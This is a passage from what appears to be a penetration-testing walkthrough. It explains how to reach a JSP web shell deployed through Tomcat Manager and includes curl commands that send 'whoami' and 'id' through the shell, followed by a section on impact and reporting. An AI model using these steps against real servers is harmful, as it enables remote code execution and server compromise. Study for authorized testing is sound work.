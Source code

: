 ### 5.4. Accessing the Web Shell and Executing Commands

*   **Action:**
    1.  After successful deployment, the Tomcat Manager will list `/evil` as one of the deployed applications.
    2.  Access your web shell by navigating to: `http://{$TARGET_IP}:{$TOMCAT_ALT_PORT}/evil/shell.jsp`
    3.  You should see the form with an input box.
*   **Executing Commands:**
    *   Enter a command (e.g., `whoami`, `ls -la` on Linux, `cmd /c dir` on Windows) into the input box and click "Run Command".
    *   Or directly in the URL: `http://{$TARGET_IP}:{$TOMCAT_ALT_PORT}/evil/shell.jsp?cmd=whoami`
*   **Code (Conceptual `curl` to test the deployed shell):**
    ```bash
    # Ensure TARGET_IP, TOMCAT_ALT_PORT are set
    # Assumes the WAR was deployed as /evil and shell is shell.jsp
    SHELL_URL="http://${TARGET_IP}:${TOMCAT_ALT_PORT}/evil/shell.jsp"

    echo "[INFO] Attempting to execute 'whoami' command via web shell at ${SHELL_URL}"
    # URL encode commands if they have spaces or special chars, though for simple ones it might work.
    # For 'ls -la /tmp': cmd=ls%20-la%20%2Ftmp
    COMMAND_TO_RUN="whoami" # Basic command
    COMMAND_TO_RUN_URL_ENCODED=$(printf %s "${COMMAND_TO_RUN}" | jq -s -R -r @uri) # Requires jq for URL encoding

    # Send command via GET request
    curl -s -L -k "${SHELL_URL}?cmd=${COMMAND_TO_RUN_URL_ENCODED}"

    echo -e "\n\n[INFO] Attempting to execute 'id' command..."
    COMMAND_TO_RUN_2="id"
    COMMAND_TO_RUN_2_URL_ENCODED=$(printf %s "${COMMAND_TO_RUN_2}" | jq -s -R -r @uri)
    curl -s -L -k "${SHELL_URL}?cmd=${COMMAND_TO_RUN_2_URL_ENCODED}"
    ```
*   **Scenario Outcome:** "The webshell was successfully uploaded and I was able to run a few commands on it." This confirms RCE.

---

## 6. Phase 4: Impact & Ethical Reporting

If this were an authorized test:

*   **Impact:**
    *   **Full Server Compromise:** RCE means the attacker has control over the underlying server with the privileges of the Tomcat service user.
    *   Data theft, modification, or deletion.
    *   Installation of persistent backdoors, malware, crypto miners.
    *   Pivoting to other internal network systems.
    *   Denial of Service.
*   **Documentation:**
    *   IP and Port of the Tomcat server: `{$TARGET_IP}:{$TOMCAT_ALT_PORT}`.
    *   Tomcat Manager URL: `{$TOMCAT_MANAGER_URL}`.
    *   Default credentials used: `{$DEFAULT_USER}:{$DEFAULT_PASS}`.
    *   Steps to create and deploy the malicious WAR file.
    *   URL of the web shell: `{$SHELL_URL}`.
    *   Examples of commands executed and their output.